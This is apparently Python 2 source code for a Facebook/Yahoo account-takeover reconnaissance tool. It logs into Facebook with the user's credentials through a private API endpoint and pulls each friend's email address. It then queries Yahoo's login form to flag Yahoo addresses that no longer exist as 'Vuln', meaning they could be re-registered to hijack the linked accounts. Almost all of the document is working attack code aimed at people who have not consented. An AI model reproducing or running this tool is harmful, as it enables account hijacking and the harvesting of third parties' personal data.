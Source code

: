 # SAM
import requests, json, os, re, sys, mechanize, urllib reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) os.system("clear") idt = raw_input("\033[39m[\033[31m*\033[39m] Email : ") passw = raw_input("\033[39m[\033[31m*\033[39m] Password: ") url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (idt) + "&amp;locale=en_US&amp;password=" + (passw) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6" data = urllib.urlopen(url) op = json.load(data) if 'access_token' in op: token = (op["access_token"]) print ("\033[39m[\033[31m+\033[39m] Login Berhasil") else: print ("\033[39m[\033[31m+\033[39m] \033[31mLogin Gagal!") sys.exit() get_friends = requests.get('https://graph.facebook.com/me/friends?access_token='+token) hasil = json.loads(get_friends.text) print ("\033[39m[\033[31m+\033[39m] Berhasil Mendapatkan ID Teman...") #cok = open('Mail_Yahoo.txt','w') def defense(): global o, h o = [] h = 0 print "\033[36m" + 55*"-" print "\033[36m| " + 11*" " + "\033[35mEmail" + 14*" " + "\033[36m|" + 9*" " + "\033[33mVuln" + 8*" " + "\033[36m|" print 55*"-" for i in hasil['data']: wrna = "\033[36m" wrne = "\033[39m" h +=1 o.append(h) x = requests.get("https://graph.facebook.com/"+i['id']+"?access_token="+token) z = json.loads(x.text) try: kunci = re.compile(r'@.') cari = kunci.search(z['email']).group() if 'yahoo.com' in cari: br.open("https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = z['email'] j = br.submit().read() Zen = re.compile(r'"messages.ERROR_INVALID_USERNAME">.') try: cd = Zen.search(j).group() except: vuln = 6*" " + "\033[31mNot Vuln" #Email Len lean = 30 - (len(z['email'])) eml = lean * " " #Name Len lone = 24 - (len(vuln)) namel = lone * " " print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|" continue if '"messages.ERROR_INVALID_USERNAME">' in cd: vuln = 8*" " + "\033[32mVuln" else: vuln = 5*" " + "\033[31mNot Vuln" #Email Len lean = 30 - (len(z['email'])) eml = lean * " " #Name Len #Author: Zen-Oh-Sama lone = 24 - (len(vuln)) namel = lone * " " print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|" else: pass except KeyError: pass defense()
